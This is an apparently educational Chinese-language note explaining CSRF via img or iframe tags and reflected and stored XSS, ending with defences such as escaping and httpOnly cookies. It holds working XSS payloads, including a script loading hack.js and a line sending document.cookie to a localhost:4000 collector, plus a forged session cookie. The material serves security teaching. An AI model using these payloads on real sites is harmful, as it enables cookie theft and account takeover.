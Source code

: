 ### 攻击xss,csrf
#### 1. csrf攻击
在其他域名下访问被攻击者之前访问域名下的接口，通过img标签的形式，向同一个服务器发送请求，从而形成攻击。    
例如：A用户访问B（域名：http://www.b.com） 网站，登录成功以后cookie信息已经获取到，B网站发送了一个请求 http://www.b.com/list/delete?id=“11” 这样会删除了id为11的信息。如果攻击者此时利用C页面(http:www.c.com)放了一个img标签，且src=‘http://www.b.com/list/delete?id=“12”’ 这样就会向后端发起删除id为12的信息，起到攻击的作用。 因为C页面的src的链接是b页面的，同一个浏览器下面，不同的窗口，向同一个域发起的请求是共享cookie的，所以此时就像是在b网站发起请求一样，也是携带cookie，服务端认为是合法的，从而把id=12的记录给删除了，起到了攻击的作用。    
或者是在c页面放置一个iframe，iframe的链接是删除链接，此时也是可以起到攻击的作用，而且iframe的这种攻击是用浏览器的请求头里的refer字段无法识别的，因为此时的refer的地址就是iframe的地址，即b页面的地址，所以此时使用refer无效。使用img标签的时候应该是可以使用refer来判断访问的网站的。    

#### 2. xss攻击（跨站脚本攻击），利用注入脚本攻击

##### （1）反射型 - url参数直接注入
①：普通：http://localhost:3000/?from=china      
②：alert尝试：http://localhost:3000/?from=<script>alert(3)</script>    
③：获取Cookie：http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>    
伪造cookie入侵： document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="    
直接在4000端口的页面输入脚本：var img = new Image(); img.src='http://localhost:4000/img?c='+document.cookie 就能获取cookie    

##### （2）存储型 - 存储到DB后读取时注入（在输入框，例如评论区输入内容）
评论：<script>alert(1)</script>     
跨站脚本注入：我来了<script src="http://localhost:4000/hack.js"></script>

**防范手段**：
+ ejs转义字符
+ 设置黑名单
+ httpOnly cookie（即cookie不能通过document.cookie的方式获取，只能浏览器请求后台时自动带在头部）
